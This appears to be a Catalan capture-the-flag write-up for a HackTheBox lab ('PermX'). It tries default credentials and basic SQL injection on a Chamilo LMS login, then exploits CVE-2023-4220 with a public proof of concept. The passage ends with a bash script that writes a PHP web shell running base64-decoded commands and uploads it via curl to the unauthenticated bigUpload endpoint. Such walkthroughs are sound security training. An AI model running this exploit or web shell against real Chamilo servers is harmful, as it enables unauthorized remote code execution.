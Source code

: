 I a la pàgina ens trobem el següent:

![image](https://github.com/user-attachments/assets/7c933e25-cbe2-490f-93ce-026afd51fc26)


A sota a la dreta veiem el nom de l'administrador de la pàgina:

![image](https://github.com/user-attachments/assets/dbafb124-9e6d-4fb7-9a16-d261d9e15a17)


Si cliquem al nom de l'administrador veiem que se'ns obre una finestra per poder enivar-li un correu:

![image](https://github.com/user-attachments/assets/90b64aee-1997-4d00-bdfd-0cd5aeee4889)


Provem credencials per defecte que s'acostumen a utilitzar al login (admin:admin, root:root, etc) però no tenim èxit, hem provat també injecció sql força bàsica i tampoc hi ha hagut èxit:

![image](https://github.com/user-attachments/assets/d8328951-2ac6-4cb4-bd49-2d7bcd66b6fa)


Per tant, ens centrarem en el següent que es veu de forma clara a la pàgina, que és Chamilo que cercant per internet veiem que és un sistema d'aprenentatge electrònic i de gestió de continguts de programari lliure, orientat a millorar l'accés a l'educació i el coneixement a nivell mundial. Per tant bucarem si té algun POC o exploit per el qual podem iniciar sessió en aquest login.

Cercant per internet ens trobem que té alguns CVE que permeten l'execució de codi remot, toca veure si en podem explotar algun:

![image](https://github.com/user-attachments/assets/912d9b4d-c409-451c-80f8-07ffb101000e)

Després de provar vàris CVE i exploits,el que ha funcionat és aquest CVE que és el més recent dels que he trobat: [CVE-2023-4220](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-4220) 

I cercant POC per aquest CVE he trobat el següent: https://github.com/charlesgargasson/CVE-2023-4220 

Anem a executar-lo per veure com funciona i com hem aconseguit accés a través d'ell. Primer creem l'script amb bash posant la URL i la comanda que volem executar, en aquest cas id per veure amb quin usuari estem:

```
┌──(polkali㉿kaliPol)-[~/Documents/PermX]
└─$ nano reverse.sh            

┌──(polkali㉿kaliPol)-[~/Documents/PermX]
└─$ chmod u+x reverse.sh`
```

A reverse.sh posem el codi següent que hem trobat al repositori de GitHub modificant el domini per el que tenim nosaltres desat a /etc/hosts

```
`#!/bin/bash
HOST='http://lms.permx.htb'
CMD='id'

URL_UPLD='main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
URL_FILE='main/inc/lib/javascript/bigupload/files/rce.php'

cat <<'EOF'>/tmp/rce.php
<?php
$a=popen(base64_decode($_REQUEST["aoOoy"]),'r');while($b=fgets($a,2048)){echo $b;ob_flush();flush();}pclose($a);
?>
EOF

curl -F 'bigUploadFile=@/tmp/rce.php' "$HOST/$URL_UPLD"
```